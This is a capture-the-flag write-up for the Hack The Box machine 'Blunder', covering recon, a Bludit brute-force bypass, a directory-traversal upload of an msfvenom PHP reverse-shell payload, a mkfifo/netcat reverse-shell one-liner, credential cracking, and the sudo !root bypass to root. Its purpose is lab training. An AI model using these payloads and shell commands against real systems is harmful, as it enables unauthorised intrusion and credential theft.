

Blunder is a Linux machine rated Easy on HTB.

## Port Scan

Since taking my OSCP, I've been using [nmapAutomator](https://github.com/21y4d/nmapAutomator) for my recon scans. It's a useful tool for covering most bases, but you should only use it after familiarizing yourself with nmap.

First, the script does a quick scan of the top 1000 ports and found only port 80 open.

```
Nmap scan report for 10.10.10.191
Host is up (0.22s latency).
Not shown: 998 filtered ports, 1 closed port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
```

Then, it does a more in-depth scan of the port.

```
Nmap scan report for 10.10.10.191
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

## HTTP Recon

When we visit the website in our web browser, this is what we see.


It seems like a personal website. 

Let's try to find out more about the technology it is using by:

* Examining the HTTP headers 
* View-source

`curl -vvv 10.10.10.191`



The `X-Powered-By` header revealed that it uses [Bludit](https://www.bludit.com/), which is a flat file CMS.

The source code shows that the Bludit version in use is **3.9.2**.



Now, let's complete our initial recon by examining the results from [gobuster](https://github.com/OJ/gobuster).

```
$gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -l -t 30 -e -k -x .html,.txt,.php -u http://10.10.10.191
===============================================================
Gobuster v3.0.1
<SNIP>
http://10.10.10.191/0 (Status: 200) [Size: 7561]
http://10.10.10.191/LICENSE (Status: 200) [Size: 1083]
http://10.10.10.191/about (Status: 200) [Size: 3280]
http://10.10.10.191/admin (Status: 301) [Size: 0]
http://10.10.10.191/cgi-bin/ (Status: 301) [Size: 0]
http://10.10.10.191/robots.txt (Status: 200) [Size: 22]
http://10.10.10.191/robots.txt (Status: 200) [Size: 22]
http://10.10.10.191/server-status (Status: 403) [Size: 277]
http://10.10.10.191/todo.txt (Status: 200) [Size: 118]
```

After checking the pages that returned a 200 OK response manually, two pages seem interesting.

`http://10.10.10.191/admin` presents a login page. We can attempt to bruteforce or log in if we find any credentials.

`http://10.10.10.191/todo.txt` is shown below.



The todo document suggests that the CMS might be outdated, and that `fergus` takes care of the blog.

## Bludit CMS Vulnerability Research

Since the CMS is outdated, it makes sense to research for any known vulnerabilities.

Upon researching Bludit for vulnerabilities with `searchsploit bludit`, we found two exploits that are relevant to the version of Bludit we have identified:

* [Bludit 3.9.2 - Auth Bruteforce Bypass](https://www.exploit-db.com/exploits/48746)
* [Bludit 3.9.2 - Directory Traversal](https://www.exploit-db.com/exploits/48701)

The second one is an authenticated exploit, so let's bear that in mind and move on. We might be able to use it when we get working credentials, but not now.

Instead, let's look at how we can make use of the bruteforce bypass.

## Bludit Bruteforce Bypass

After some googling, [this page offers the clearest explanation of the Bludit Bruteforce Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/).

We will also use the exploit script found on the same page, instead of the one at exploitdb.

Essentially, we can bruteforce to our heart's content by spoofing IP addresses as they are not validated.

But before we can bruteforce anything, we need:

* At least one username 
* A list of passwords

As mentioned earlier, `fergus` seems to be in charge of the blog so we can use that as a username.

As for a list of passwords we can use cewl to generate a wordlist based on the website's content.

`$ cewl -d 2 -m 5 -w passwords.txt http://10.10.10.191/`

This command above generated a list of 243 passwords of at least 5 letters in length.

Now, let's edit the exploit script to our purpose. We need to edit three variables at the top of the script:

* login_url (as we found through our earlier fuzzing)
* username
* passfile



After making the edits above, let's run the script.



We found a valid set of credentials for Bludit!

## Bludit Directory Traversal Exploit

With a set of working credentials, now it's time to return our attention to the other [exploit](https://www.exploit-db.com/exploits/48701) we found.

This exploit takes advantage of a directory traversal vulnerability in the uuid parameter to upload a malicious image payload. Coupled with a .htaccess file that helps to bypass the file extension check, we could achieve remote code execution.

Accordingly, we need to upload two files: an image payload and a htaccess file. The exploit comments contain clear instructions for generating these two files.

To generate the image payload:

```
$ msfvenom -p php/reverse_php LHOST=10.X.X.X LPORT=53 -f raw -b '"' > evil.png
$ echo -e "<?php $(cat evil.png)" > evil.png
```

To generate the .htaccess file:

```
$ echo "RewriteEngine off" > .htaccess                                                                               
$ echo "AddType application/x-httpd-php .png" >> .htaccess
```

After generating the two files, we need to edit the exploit to include the correct URL and credentials.

```
url = 'http://10.10.10.191'  # CHANGE ME                                                                             
username = 'fergus'  # CHANGE ME        
password = 'RolandDeschain'  # CHANGE ME
```

Now let's fire off the exploit.

```
$ python3 bluditexploit.py 
cookie: dh1nhhrkb929pmf9dehl4ttf46
csrf_token: c04827497f6b9f83f2ffe5b41269c5bdd5799fd5
Uploading payload: evil.png
Uploading payload: .htaccess
```

Finally, we activate our payload by curling it. Remember to start a handler.

`$ curl http://10.10.10.191/bl-content/tmp/temp/evil.png`

We got a shell!

```
$ sudo rlwrap nc -nvlp 53
listening on [any] 53 ...
connect to [10.X.X.X] from (UNKNOWN) [10.10.10.191] 46376
whoami                 
www-data                  
```

## Upgrading Our Shell

To upgrade our shell, we need to create another reverse shell with netcat, before uprading it with python.

In the php reverse shell:

```
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 443 >/tmp/f
```

In the new netcat reverse shell:

```
$ sudo rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.191] 37518
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ 
```

## Locating and Cracking Credentials

If an initial compromise is obtained via the web server, it's a good idea to check for any hardcoded credentials in the configuration files of the website. For instance, it's common to find SQL login credentials. But since Bludit is a flat file CMS that does not use databases like SQL, we might find similar information in JSON format.

Indeed, under the databases directory, we find some credentials in the `users.php` file.

```
www-data@blunder:/var/www$ cat ./bludit-3.10.0a/bl-content/databases/users.php
```



With [crackstation](https://crackstation.net/), we managed to uncover the password.



With this password belonging to a user hugo, let's look for a place to use it.

Let's check if there's any account on this machine that we can switch to with this password.



It turns out that there is indeed a user on this machine called hugo.



*There were also credentials in the `bludit-3.9.2` version, but we could not crack them.*

## Exploiting Sudo < 1.8.28

Since we have hugo's password, we could list the commands this account could use with sudo. Apparently, hugo could run bash as any user except root, due to the `!root` configuration.



However, [sudo versions before 1.8.28 contains a vulnerability that allows a bypass](https://www.exploit-db.com/exploits/47502). This bypass will enable us to run the allowed commands (in this case bash) as root. Getting to root here is easy as the version of sudo installed is vulnerable.



# Thoughts

This simple box reminded me of OCSP as it involves the process of enumerating for information, finding exploits based on that information, and adapting public exploits to get them to work.

**Bludit Exploits**

* https://rastating.github.io/bludit-brute-force-mitigation-bypass/
